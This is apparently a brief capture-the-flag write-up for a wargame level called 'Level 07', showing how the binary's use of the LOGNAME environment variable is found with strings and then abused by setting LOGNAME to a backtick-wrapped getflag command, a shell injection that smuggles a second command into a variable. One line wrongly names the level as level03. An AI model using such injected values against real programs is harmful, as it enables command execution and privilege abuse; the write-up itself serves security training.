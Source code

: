 # Level 07

## step 1 : analyze level07
```
$ strings level07
```
we can see that level03 uses LOGNAME, a environment variable.

## step 2 : shell injection
```
$ export LOGNAME="\`getflag\`"
$ ./level07
```
